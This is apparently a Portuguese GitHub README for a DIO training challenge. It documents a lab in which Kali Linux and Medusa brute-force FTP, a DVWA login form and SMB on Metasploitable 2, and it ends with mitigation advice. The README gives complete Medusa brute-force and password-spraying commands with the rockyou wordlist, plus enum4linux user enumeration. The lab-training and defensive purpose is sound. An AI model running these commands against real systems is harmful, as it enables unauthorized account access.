 # Medusa-Kali
Desafio DIO: Força Bruta com Kali Linux e Medusa
Esse modelo cobre:

* Introdução e contexto
* Estrutura do ambiente (com topologia)
* Ataques realizados: FTP, DVWA (formulário web), SMB
* Comandos utilizados
* Wordlists
* Resultados e capturas de tela (use a pasta `/images`)
* Mitigações sugeridas
* Conclusão

Este repositório documenta o projeto prático proposto no desafio da DIO, focando na simulação de ataques de força bruta em ambientes controlados utilizando as ferramentas Kali Linux, Medusa e máquinas vulneráveis como Metasploitable 2 e DVWA. O objetivo é compreender vulnerabilidades comuns, testar autenticações inseguras e propor boas práticas de segurança.

Objetivos

* Compreender o funcionamento de ataques de força bruta em diferentes serviços (FTP, Web, SMB).
* Configurar e utilizar o Medusa para automatizar tentativas de autenticação.
* Documentar processos técnicos de forma clara e estruturada.
* Propor medidas de mitigação realistas e eficazes.
* Utilizar o GitHub como portfólio técnico.

Ambiente de Testes

| Componente  | Descrição                                   |
| ----------- | ------------------------------------------- |
| Host        | Kali Linux (VM)                             |
| Alvo        | Metasploitable 2 + DVWA (VM)                |
| Rede        | Host-Only (VirtualBox)                      |
| Ferramentas | Medusa, curl, Hydra (opcional), rockyou.txt |

Topologia:


[ Kali Linux ] ←(Host-only)→ [ Metasploitable 2 + DVWA ]



Ataques Realizados

1.Ataque FTP com Medusa

Comando:

medusa -h 192.168.56.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp -t 50

Explicação:

* `-h`: IP do alvo
* `-u`: usuário
* `-P`: caminho da wordlist
* `-M`: módulo (FTP)
* '-t': ativa a opção multithread que torna mais ágil e rapida a execução do comando.

* obs: Editado a wordlist rockyou.txt para inserir no começo da lista a senha msfadmin apenas para agilizar os testes.
* vim /usr/share/wordlists/rockyou.txt

Resultado:
Credenciais descobertas: `msfadmin:msfadmin`
Acesso validado via `ftp`.

2. Força Bruta em Formulário Web (DVWA)

Pré-requisitos:
Configurar DVWA para **segurança: LOW

Comando com Medusa:

medusa -h 192.168.56.105 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6



Explicação:

* Ataque no formulário de login da DVWA
* O parâmetro `FAIL` identifica falhas com base na resposta da página
* lista de usuarios criadas a partir da enumeração e senhas tambem.

Resultado:
Login com senha válida foi identificado.

3.Password Spraying no SMB com Enum4Linux

Etapa 1: Enumeração de usuários


enum4linux -U 192.168.56.105

* Foi criado o arquivo smb_users.txt com os usuários reportados na enumeração: echo "msfadmin\nadmin\nuser" > users.txt


Etapa 2: Ataque SMB


medusa -h 192.168.56.105 -U smb_users.txt -P rockyou.txt -M smbnt


Resultado:
Acesso obtido via SMB com usuário válido



Wordlists

Utilizada a wordlist rockyou.txt, já inclusa no Kali Linux, que conta com vários parâmetros sem a necessidade real de criar uma lista ampla:


/usr/share/wordlists/rockyou.txt


Obs: execute `gunzip rockyou.txt.gz` se necessário.



Evidências (Capturas de Tela)

As capturas estão na pasta [`/images`](./images):

`ftp_attack.png`
`dvwa_attack.png`
`smb_enum.png`
`success_login.png`

Recomendações de Mitigação

* Desabilitar serviços desnecessários (ex: FTP, Telnet).
* Aplicar bloqueios temporários após múltiplas tentativas falhas (ex: fail2ban).
* Implementar autenticação multifator (MFA).
* Utilizar senhas fortes e complexas, evitando padrões comuns.
* Atualizar e monitorar logs de autenticação regularmente.

Conclusão

Este projeto demonstrou, em um ambiente controlado, como ferramentas de ataque como o Medusa podem ser utilizadas para testar a segurança de serviços vulneráveis. A experimentação com wordlists e diferentes protocolos mostrou a importância da boa gestão de senhas, mitigações ativas contra ataques automatizados e que treinamento de pessoal com uma politica de seginfo bem estruturada ainda assim pode não ser suficiente para conter incidentes, mas diminui a probabilidade de sucesso de um ataque.

Referências

* [Kali Linux Tools](https://tools.kali.org/)
* [Medusa GitHub](https://github.com/jmk-foofus/medusa)
* [DVWA GitHub](https://github.com/digininja/DVWA)
* [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
* [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)



Autor

Carlos Eduardo Silva Bertazzoli
Projeto desenvolvido para o desafio da [Digital Innovation One (DIO)](https://www.dio.me)

